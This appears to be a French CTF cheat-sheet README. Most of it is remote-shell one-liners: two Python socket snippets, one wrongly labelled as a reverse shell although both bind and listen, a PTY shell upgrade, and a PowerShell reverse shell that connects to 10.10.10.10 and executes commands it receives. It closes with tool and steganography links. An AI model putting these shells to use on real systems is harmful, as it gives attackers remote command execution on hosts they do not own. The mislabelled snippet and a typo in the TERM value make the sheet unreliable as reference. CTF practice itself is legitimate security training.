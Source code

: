 Tips et tools utiles pour les CTFs

# Tips
## Unix 

### Obtenir un shell
Reverse shell
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',PORT));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
Bind shell
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty -a |cut -d';' -f2-3 | head -n1
stty raw -echo
fg

#### Dans le webshell ###
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
### Powershell Reverse shell OneLiner (@Nikhil SamratAshok Mittal)
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Tools pour palier le manque d'inspiration 
Checker les différents tools : https://github.com/zardus/ctf-tools

## Steganographie
Tester zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101

